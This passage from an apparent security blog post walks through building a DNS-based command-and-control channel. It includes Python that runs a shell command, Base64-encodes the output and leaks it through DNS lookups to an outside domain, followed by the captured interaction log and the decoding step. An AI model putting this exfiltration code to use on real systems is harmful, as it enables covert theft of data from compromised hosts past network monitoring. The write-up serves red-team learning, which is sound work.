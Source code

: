 The solution I came up with was the unassuming Base64 encode. Ideally you would want to encrypt the data with something like AES256 CBC as is the case for "production" C2 frameworks like Cobalt Strike, but we are dealing with a UAT build so let's just roll with what we have.

Before dealing with the message length, lets see how I implemented the encoding with the code snippet below - first we read the command output for popen() and encode into UTF-8 (because b64encode takes a byte sequence), then the payload was Base64 encoded, gets back a string with decode('UTF-8'), and remove all the trailing `=` which might appear in b64 encoding.

```
data = popen('uname -r').read().encode('UTF-8') 
payload = b64encode(data).decode('utf-8').replace('=','')
url = f'http://{payload}..subdomain.awesome-blogpost.com'
lookup = gethostbyname(url)
```

On Interactsh, we should get back the encoded output:

```
[NS4xMC4yMTYtMjI1Ljg1NS5hbXpuMi54ODZfNjQK.<uuid>.subdomain.awesome-blogpost.com.] received DNS interaction from 35....
```

Using the `base64` cli utility, we would then get back the command output for `uname -r`

```
$ echo -n 'NS4xMC4yMTYtMjI1Ljg1NS5hbXpuMi54ODZfNjQK' | base64 -d
5.10.216-225.855.amzn2.x86_64
```

![pic7](images/pic7.png "pic7")

#### Chunks & Ordering

When I first learnt about how TCP worked, it fascinated me with the inner mechanisms of stateful sessions, message ordering, length and integrity checks, and so on. Basically the protocol involves chopping the sender's message into little chunks, and the receiver can receive them in any order, recombine the chunks, and get back the original message, with a check that a) the message is intact and, b) the message has ended. How brilliant!

Now that I am about to chop my bootleg DNS messages into 60-odd byte chunks, the minimum that I need to implement is a system which gives a little index tag to the message, and when I get back the messages in any order, my decoder will be able to rearrange them, combine back the original message, and decode them as one.

Below is how I implemented it (with a little bit of help from our friend ChatGPT…) - if the payload is less than 60 bytes long, we define that the number of segments is 0. Otherwise, it will just be the result of the length of the payload divided by 60 (e.g. for 80 byte payload, the number of segments is 2). We loop through the segments, cutting out `60*(n) to 60*(n+1) th` bytes, and finally add the index label before the payload in the final DNS query:

